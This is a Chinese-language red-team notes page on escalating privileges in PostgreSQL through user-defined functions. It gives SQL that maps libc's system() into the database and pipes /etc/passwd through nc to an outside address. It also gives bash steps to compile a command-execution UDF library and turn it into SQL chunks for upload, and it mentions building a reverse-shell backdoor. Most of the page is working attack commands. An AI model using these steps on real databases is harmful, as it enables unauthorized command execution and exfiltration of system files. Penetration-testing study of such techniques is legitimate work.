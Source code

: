 
## PostgreSQL 提权

### 利用 UDF 命令执行

**描述**

在 8.2 以前,postgresql 不验证 magic block,可以直接调用本地的 libc.so
```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc xxx.xx.xx.xx');
```

8.2 以上版本,需要自己编译 so 文件去创建执行命令函数，可以自己编译反弹 shell 后门，也可以用 sqlmap 提供好的
- https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/postgresql

**复现测试**

可以参考 [No-Github/postgresql_udf_help](https://github.com/No-Github/postgresql_udf_help)

```bash
# 找相应的 dev 扩展包
apt-get search postgresql-server-dev
# 安装 dev 扩展包
apt-get install postgresql-server-dev-11
# apt install postgresql-server-dev-all

# 编译好 .so 文件
git clone https://github.com/No-Github/postgresql_udf_help
cd postgresql_udf_help
gcc -Wall -I/usr/include/postgresql/11/server -Os -shared lib_postgresqludf_sys.c -fPIC -o lib_postgresqludf_sys.so
strip -sx lib_postgresqludf_sys.so

# 生成分片后的 sql 语句
cat lib_postgresqludf_sys.so | xxd -ps | tr -d "\n" > 1.txt
python2 postgresql_udf_help.py 1.txt > sqlcmd.txt
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/4.png)
